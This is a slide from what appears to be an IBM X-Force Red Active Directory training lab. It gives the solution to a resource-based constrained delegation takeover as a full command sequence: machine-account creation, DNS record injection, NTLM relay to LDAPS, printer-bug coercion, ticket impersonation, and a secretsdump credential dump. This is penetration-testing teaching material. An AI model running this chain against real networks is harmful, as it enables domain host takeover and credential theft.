

# DA, now what? > Lab 5 – Solution
Now with your new domain user, attempt a computer takeover using a RBCD attack
impacket-addcomputer -computer-name 'uniqueName' -dc-ip 172.16.14.200 amradio/macheson:password
python3 /opt/krbrelayx/dnstool.py -u amradio.local\\macheson -p password -a add -r uniqueFakeRecord -d $yourIP $dcip
impacket-ntlmrelayx -t ldaps://mc-dc01.amradio.local -wh $yourIP --delegate-access --escalate-user $uniqueName --no-dump --no-acl --no-da --no-validate-privs (in another window)
python3 /opt/krbrelayx/printerbug.py amradio.local/macheson:password@dolphin.amradio.local uniqueFakeRecord@80/fakepath
impacket-getST -spn cifs/dolphin.amradio.local -impersonate barry amradio.local/uniqueName:generatedPassword -dc-ip 172.16.14.220
export KRB5CCNAME=barry.ccache
impacket-secretsdump -k -no-pass dolphin.amradio.local

IBM Security X-Force Red / © 2022 IBM Corporation
58